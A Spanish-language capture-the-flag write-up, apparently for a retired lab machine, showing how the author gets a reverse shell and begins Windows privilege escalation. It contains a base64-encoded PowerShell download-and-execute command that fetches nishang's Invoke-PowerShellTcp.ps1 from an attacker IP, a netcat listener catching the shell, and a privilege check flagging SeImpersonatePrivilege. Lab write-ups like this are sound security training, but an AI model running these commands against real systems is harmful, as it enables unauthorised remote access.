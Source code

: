 Gano acceso al sistema utilizando ```Invoke-PowerShellTcp.ps1``` de nishang

```null
echo 'IEX(New-Object Net.WebClient).downloadString("http://10.10.16.4/Invoke-PowerShellTcp.ps1")' | iconv -t utf-16le | base64 -w 0 | xclip -sel clip
```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.116] 49690
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\SysWOW64\inetsrv>whoami
conceal\destitute
PS C:\Windows\SysWOW64\inetsrv> 
```

Puedo visualizar la primera flag

```null
PS C:\Users\Destitute\Desktop> type user.txt
4186905dddae28b8cfdb898b30db5f3f
```

# Escalada

En la raíz hay un directorio con un script en powershell, pero no se puede abusar de este. Corresponde a la tarea que borra los scripts en el directorio ```uploads```

```null
PS C:\admin_checks> type checks.ps1
# run standard checks
Get-ChildItem -Path C:\inetpub\wwwroot\upload\* -ErrorAction SilentlyContinue | Remove-Item -Force -ErrorAction SilentlyContinue

# run one time checks
foreach($check in (Get-ChildItem C:\admin_checks\checks\*.ps1 -File)){
    . $check.fullname
    $check | Remove-Item -Force -ErrorAction SilentlyContinue
}
```

Tengo el ```SeImpersonatePrivileage```, por lo que la escalada está asegurada

```null
PS C:\admin_checks> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
